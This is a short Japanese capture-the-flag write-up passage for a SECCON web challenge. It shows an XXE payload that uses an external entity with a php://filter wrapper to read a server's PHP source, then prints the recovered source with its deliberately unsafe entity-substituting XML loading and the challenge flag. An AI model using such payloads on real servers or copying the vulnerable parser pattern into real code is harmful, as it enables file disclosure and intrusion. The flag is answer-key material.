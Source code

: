 以下のような XML を処理させることで `1.php` のソースコードとフラグが得られました。

```xml
<?xml version="1.0" encoding="utf-8" ?>
<!DOCTYPE x [ 
  <!ENTITY xxe SYSTEM "php://filter/read=convert.base64-encode/resource=/var/www/html/1/1.php">
] >
<finals>
  <team>
    <no>1</no>
    <nation>2</nation>
    <name>3</name>
    <qualif>&xxe;</qualif>
  </team>
</finals>
```

```php
<?php
  if(empty($_GET['file'])) {
    header('Location: ?file=1.xml');
    exit;
  }
?><html>
<head>
  <title>1.php</title>
  <!-- by KeigoYAMAZAKI, 2018.01.17- -->
</head>
<body>
<h2>1.php</h2><p></p>
<table border="1">
<tr style="background-color:royalblue;color:white"><th>No</th><th>Nationality</th><th>Team Name</th><th>Qualification</th></tr>
<?php

// FLAG(1of2) => SECCON{Im-DTD-master!}

$doc = new DOMDocument();
$doc->substituteEntities = true;
$doc->load($_GET['file']);
foreach($doc->getElementsByTagName('team') as $team) {
  echo "<tr>".
       "<td>".htmlspecialchars($team->getElementsByTagName('no')->item(0)->nodeValue)."</td>".
       "<td>".htmlspecialchars($team->getElementsByTagName('nation')->item(0)->nodeValue)."</td>".
       "<td>".htmlspecialchars($team->getElementsByTagName('name')->item(0)->nodeValue)."</td>".
       "<td>".htmlspecialchars($team->getElementsByTagName('qualif')->item(0)->nodeValue)."</td>".
       "</tr>\n";
}
?>
</table>
</body>
</html>
<?php exit; ?>

*** HINT ***
You can use 'favor.dtd' to retrieve this php source code.
(This file contains FLAG 1of2.)
```
